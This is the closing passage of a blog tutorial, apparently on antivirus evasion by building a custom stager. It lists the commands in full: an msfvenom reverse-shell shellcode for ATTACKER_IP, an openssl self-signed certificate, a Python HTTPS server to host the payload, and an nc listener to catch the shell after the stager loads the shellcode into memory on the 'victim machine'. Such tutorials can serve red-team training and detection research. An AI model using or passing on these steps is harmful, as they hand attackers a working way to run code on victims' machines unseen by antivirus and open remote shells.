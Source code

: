 > **msfvenom windows/x64/shell\_reverse\_tcp LHOST=ATTACKER\_IP LPORT=7474 –f raw –o shellcode.bin ‘\\x80\\x0a\\x0d’**

Notice that we are using the raw format for our shellcode, as the stager will directly load whatever it downloads into memory.

Now that we have a shellcode, let’s set up a simple HTTPS server. First, we will need to create a self-signed certificate with the following command:

> **Openssl req –new –x509 –keyout localhost.pem –out localhost.pem –days 365 -nodes**

You will be asked for some information, but feel free to press enter for any requested information, as we don’t need the SSL certificate to be valid. Once we have an SSL certificate, we can spawn a simple HTTPS server using python3 with the following command:

> **python3 -c ‘import http.server, ssl; server\_address=(“0.0.0.0”, 443); httpd = http.server.HTTPServer(server\_address, http.server.SimpleHTTPRequestHandler); httpd.socket = ssl.wrap\_socket(httpd.socket, certfile=”/path/to/cert.pem”, keyfile=”/path/to/key.pem”, server\_side=True); httpd.serve\_forever()’**

With all of this ready, we can now execute our stager payload, The stager should connect to the HTTPS server and retrieve the **shellcode**.**bin** file to load it into memory and run it on the victim machine. Remember to set up an **nc** listener to recieve the reverse shell on the same port specified when running msfvenom: **nc –lvp 7474**

By [Moataz Osama](https://medium.com/@mezo512) on [January 31, 2025](https://medium.com/p/27482ce91fa2).

[Canonical link](https://medium.com/@mezo512/av-evasion-techniques-part-3-building-a-custom-stager-27482ce91fa2)

Exported from [Medium](https://medium.com) on August 26, 2025.